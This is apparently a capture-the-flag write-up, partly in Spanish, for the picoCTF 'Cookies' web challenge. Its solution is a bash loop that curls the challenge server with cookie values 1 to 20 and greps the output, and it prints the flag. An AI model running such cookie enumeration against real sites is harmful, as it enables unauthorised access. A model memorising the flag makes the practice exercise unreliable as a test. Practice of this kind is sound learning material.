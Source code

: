 
## Cookies
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

Hints:
1. (None)
## Solución:

```
Entro a la página me registro y copeo el link
http://mercury.picoctf.net:21485/check

brisguz@DESKTOP-8V24E1B:~$ for i in {1..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
brisguz@DESKTOP-8V24E1B:~$


picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}



```
